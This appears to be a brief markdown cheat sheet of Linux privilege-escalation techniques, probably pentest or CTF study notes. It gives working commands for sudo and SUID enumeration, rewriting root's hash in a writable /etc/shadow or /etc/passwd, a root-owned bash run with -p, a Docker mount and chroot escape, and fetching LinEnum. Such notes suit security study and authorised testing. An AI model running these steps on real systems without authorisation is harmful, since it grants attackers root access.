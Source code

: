 					Enumeration
- Kernal Version: `uname -a`
- Services Running: 

					Sudo 
- Can you su without a password?		       `su root`
- are you already a sudo user?			   `sudo su -`
- what can we run with sudo?			  `sudo -l`
- sudo versions < 1.8.28 are vulnerable to `CVE-2019-14287`

<!-- -->
				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
`ls -l /etc/shadow`					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
`ls -l /etc/passwd`					is /etc/passwd writeable?
- `openssl passwd password`			      Generate password hash
- place new password hash between first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->

				Suid
- Find all Suids `find / -perm -u=s -type f 2>/dev/null`

<!-- -->

				Docker
- get image name using 'docker ps'
- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

<!-- -->
				Identify Capabilities

- `getcap -r / 2>/dev/null`

<!-- -->

				LinEnum
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `./LinEnum.sh -t -r report.txt`

<!-- -->

				Misc
-- https://gtfobins.github.io/